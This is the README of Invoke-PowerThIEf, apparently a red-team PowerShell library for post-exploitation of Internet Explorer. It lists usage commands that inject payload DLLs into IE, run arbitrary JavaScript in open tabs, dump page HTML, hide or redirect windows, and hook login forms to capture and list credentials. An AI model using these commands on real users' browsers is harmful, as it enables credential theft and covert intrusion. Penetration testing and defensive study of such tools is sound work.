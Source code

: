 # Invoke-PowerThIEf 2018 Nettitude
An IE Post Exploitation Library

Written by Rob Maslen @rbmaslen

# Examples
### Capturing credentials entered via LastPass
<p align="center">
  <img src="https://github.com/nettitude/Invoke-PowerThIEf/blob/master/Images/creds-lastpass.gif?raw=true" width="800" title="LastPass Credentials in transit">
</p>

# Usage
First import the module using . .\Invoke-PowerThIEf.ps1 then use any of the following commands.

### List URLs for all current IE browser sessions, result will contain the BrowserIndex used by other actions
Invoke-PowerThIEf -action ListUrls

### Launch the DLL(x64) specified by the PathPayload param in IE's process
Invoke-PowerThIEf -action ExecPayload -PathPayload <path to the payload DLL(x64)>

### Invoke the JavaScript in all currently opened IE windows and tabs
Invoke-PowerThIEf -action InvokeJS -Script <JavaScript to run>

### Invoke JavaScript in the selected IE window or tab. Use ListUrls to get the BrowserIndex to identify the Window/Tab
Invoke-PowerThIEf -action InvokeJS -BrowserIndex <BrowserIndex> -Script <JavaScript to run>

### Dump the HTML of all currently opened IE windows/tabs
Invoke-PowerThIEf -action DumpHthml

### Dump the HTML from the selected IE window or tab. Use ListUrls to get the BrowserIndex to identify the Window/Tab
Invoke-PowerThIEf -action DumpHTML -BrowserIndex <BrowserIndex>

### Dump the HTML from all tags of <type> in the DOM of the selected IE window or tab. Use ListUrls to get the BrowserIndex to identify the Window/Tab
Invoke-PowerThIEf -action DumpHTML -BrowserIndex <BrowserIndex> -SelectorType tag -Selector <type>
e.g. Invoke-PowerThIEf -action DumpHTML -BrowserIndex <BrowserIndex> -SelectorType tag -Selector div

### Dump the HTML from any tag with the <id> found in the DOM of the selected IE window or tab. Use ListUrls to get the BrowserIndex to identify the Window/Tab
Invoke-PowerThIEf -action DumpHTML -BrowserIndex <BrowserIndex> -SelectorType id -Selector <id>
e.g. Invoke-PowerThIEf -action DumpHTML -BrowserIndex <BrowserIndex> -SelectorType id -Selector idfirstdiv

### Dump the HTML from any tag with the <name> found in the DOM of the selected IE window or tab. Use ListUrls to get the BrowserIndex to identify the Window/Tab
Invoke-PowerThIEf -action DumpHTML -BrowserIndex <BrowserIndex> -SelectorType name -Selector <name>
e.g. Invoke-PowerThIEf -action DumpHTML -BrowserIndex <BrowserIndex> -SelectorType name -Selector namefirstdiv

### Set to visible all IE windows/tabs
Invoke-PowerThIEf -action ShowWindow

### Show the selected opened IE windows/tabs. Use ListUrls to get the BrowserIndex to identify the Window/Tab
Invoke-PowerThIEf -action ShowWindow -BrowserIndex <BrowserIndex>

### Hide all currently opened IE windows/tabs
Invoke-PowerThIEf -action HideWindow

### Hide the selected opened IE windows/tabs. Use ListUrls to get the BrowserIndex to identify the Window/Tab
Invoke-PowerThIEf -action HideWindow -BrowserIndex <BrowserIndex>

### Navigate all currently opened IE windows/tabs to the <URL>
Invoke-PowerThIEf -action Navigate -NavigateUrl <URL> 

### Navigate all currently opened IE windows/tabs to the <URL>. Use ListUrls to get the BrowserIndex to identify the Window/Tab
Invoke-PowerThIEf -action Navigate -BrowserIndex <BrowserIndex> -NavigateUrl <URL> 

### Navigate all currently opened IE windows/tabs to the <URL>. Use ListUrls to get the BrowserIndex to identify the Window/Tab
Invoke-PowerThIEf -action Navigate -BrowserIndex <BrowserIndex> -NavigateUrl <URL> 

### Automatically scan any windows or tabs for login forms and record what gets posted. Once credentials have come in use -action creds to list them
Invoke-PowerThIEf -action HookLoginForms 

### List any creds that have been captured
Invoke-PowerThIEf -action Creds 

### Open a new background tab in the window that the <BrowserIndex> is in.
Invoke-PowerThIEf -action NewBackgroundTab -BrowserIndex <BrowserIndex>

# License
FreeBSD 3